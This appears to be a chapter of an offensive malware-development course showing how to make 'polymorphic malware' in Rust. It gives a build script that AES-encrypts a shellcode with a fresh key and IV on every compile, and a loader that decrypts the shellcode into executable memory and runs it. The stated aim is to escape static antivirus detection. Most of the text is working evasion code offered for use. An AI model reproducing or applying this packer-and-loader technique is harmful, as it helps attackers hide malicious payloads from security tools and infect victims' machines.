

Polymorphic malware consists of a binary that constantly changes its content, while retaining the same functionality. This makes them invisible to detection based on file signatures.
Think of our malware as tigers whose stripes are constantly changing position.
For our polymorphism implementation, we're going to develop a program that executes a shellcode whose contents are used to display a command prompt.
This shellcode will be AES encrypted in the program's memory, using a key and an IV that will be randomly regenerated each time the binary is compiled, hence the polymorphic nature of our malware.
Our example will be compiled for Linux, but all functionalities are fully cross-platform to Windows.
Here's the structure of our project:
.
├── build.rs
├── Cargo.lock
├── Cargo.toml
├── shellcode.bin
└── src
├── binaries
│ ├── encrypted_shellcode.bin
│ ├── iv.bin
│ └── key.bin
└── main.rs
The Cargo tool suite provides us with the ability to develop "scripts" in Rust that will be executed upstream of the compilation of our main program.
This feature has been developed in particular to be able to compile C code when our Rust code depends on it, but we're going to use it to generate our encryption key, IV and to encrypt our shellcode.
To define a build script, we need to add the following line to our Cargo.toml file:
[package]
...
package = "build.rs"
[dependencies]
libc = "0.2"
libaes = "0.7"
[build-dependencies]
libaes = "0.7"
rand = "0.8"
Here, we tell Cargo to run the build.rs script before starting to compile the program. Next, we fill in the dependencies of our program, and finally, we fill in the dependencies used only in the context of the "build script".
As the build.rs file is the Rust script that will be executed during pre-compilation, here are its contents:
use libaes::Cipher;
use rand::RngCore;
use std::fs;
fn main() {
let src_path = "shellcode.bin";
let dst_path = "src/binaries/encrypted_shellcode.bin";
let key_path = "src/binaries/key.bin";
let iv_path = "src/binaries/iv.bin";
let mut key = [0u8; 32];
let mut iv = [0u8; 32];
rand::thread_rng().fill_bytes(&mut key);
rand::thread_rng().fill_bytes(&mut iv);
let cipher = Cipher::new_256(&key);
let encrypted = cipher.cbc_encrypt(&iv, &fs::read(src_path).unwrap());
fs::write(dst_path, encrypted).unwrap();
fs::write(key_path, key).unwrap();
fs::write(iv_path, iv).unwrap();
}
In this script, we start by defining the paths to the files we're going to use, including the original shellcode whose contents we're going to retrieve, and then the location of the encrypted shellcode as well as the key and IV that go with it, in the project's source code.
We then initialize two buffers, one for the key and one for the IV, which we'll fill with random characters.
We now have what we need to encrypt our shellcode and store everything in its proper place so that it can be loaded by our program.
We'll now describe how to load the previously generated files into our program and then decrypt and call shellcode at runtime:
use libaes::Cipher;
use libc::mmap;
use libc::{mprotect, MAP_ANON, MAP_PRIVATE, PROT_EXEC, PROT_READ, PROT_WRITE};
use std::{mem, ptr};
static SHELLCODE: &[u8] = include_bytes!("binaries/encrypted_shellcode.bin");
static KEY: &[u8; 32] = include_bytes!("binaries/key.bin");
static IV: &[u8; 32] = include_bytes!("binaries/iv.bin");
fn main() {
let cipher = Cipher::new_256(KEY);
let decrypted = cipher.cbc_decrypt(IV, SHELLCODE);
unsafe {
let map = mmap(
ptr::null_mut(),
4096,
PROT_READ | PROT_WRITE,
MAP_PRIVATE | MAP_ANON,
-1,
0,
);
ptr::copy(decrypted.as_ptr(), map as *mut u8, decrypted.len());
mprotect(map, 4096, PROT_READ | PROT_EXEC);
let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map);
exec_shellcode();
}
}
Here, we start by loading the contents of the encrypted shellcode, the key and the IV into their respective static variables at compile time.
We then proceed to decrypt the shellcode in memory. The rest of the program follows the same principle as the local shellcode execution we saw earlier in the course.
By compiling our program twice in succession and calculating the hash of the executable, we can see that there are different contents each time:

You now know how to implement polymorphism in your malware and thus escape static antivirus detection. Depending on your creativity, there are other possible implementations than the one demonstrated here, but the idea remains the same.
The next part of the course deals with metamorphism, which takes the same principle to a higher level.